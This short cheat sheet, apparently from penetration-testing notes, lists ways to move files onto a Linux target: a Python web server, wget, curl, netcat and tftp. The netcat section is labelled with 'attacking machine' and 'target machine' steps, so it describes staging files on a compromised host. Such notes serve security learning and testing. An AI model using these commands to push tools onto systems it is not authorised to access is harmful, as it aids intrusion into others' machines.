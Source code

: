 # File transfer on linux

1. setup a simple python webserver.

```python
python -m SimpleHTTPServer 9001
```

```python3
python3 -m http.server 9001
```

2. using wget

```bash
wget <ip addr>:<port>/file.txt
```

3. curl 

```bash
curl <ip addr>:port/file.txt
```

4. netcat

```bash
#On attacking machine:
nc -lvp 4444 < file.txt

# on target machine
nc <ip addr> port > file.txt
```

5. tftp

```
$ tftp 192.168.0.101
tftp> get myfile.txt
```


